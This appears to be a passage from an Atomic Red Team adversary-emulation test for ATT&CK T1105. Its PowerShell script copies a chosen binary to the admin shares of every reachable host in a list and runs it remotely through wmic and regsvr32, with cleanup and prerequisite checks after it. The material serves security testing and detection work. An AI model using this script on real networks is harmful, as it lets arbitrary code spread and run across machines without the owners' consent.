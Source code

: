 ```powershell
$machine_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt"
$offline_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt"
$completed_list = "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt"
foreach ($machine in get-content -path "$machine_list")
{if (test-connection -Count 1 -computername $machine -quiet)
{cmd /c copy "#{binary_file}" "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}"
echo $machine >> "$completed_list"
wmic /node: "$machine" process call create "regsvr32.exe /i #{remote_drive_letter}:#{exe_remote_folder}"}
else
{echo $machine >> "$offline_list"}}
```

#### Cleanup Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt")
{foreach ($machine in get-content -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt")
{wmic /node: "$machine" process where name='"regsvr32.exe"' call terminate | out-null
Remove-Item -path "\\$machine\#{remote_drive_letter}$#{exe_remote_folder}" -force -erroraction silentlycontinue}}
Remove-Item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105OfflineHosts.txt" -erroraction silentlycontinue
Remove-item -path "PathToAtomicsFolder\..\ExternalPayloads\T1105CompletedHosts.txt" -erroraction silentlycontinue
```

#### Dependencies: Run with `powershell`!

##### Description: Binary file must exist at specified location (#{binary_file})

##### Check Prereq Commands:

```powershell
if (Test-Path #{binary_file}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
write-host "The binary_file input parameter must be set to a binary that exists on this computer."
```

##### Description: Machine list must exist at specified location ("PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt")

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\T1105MachineList.txt") {exit 0} else {exit 1}
```
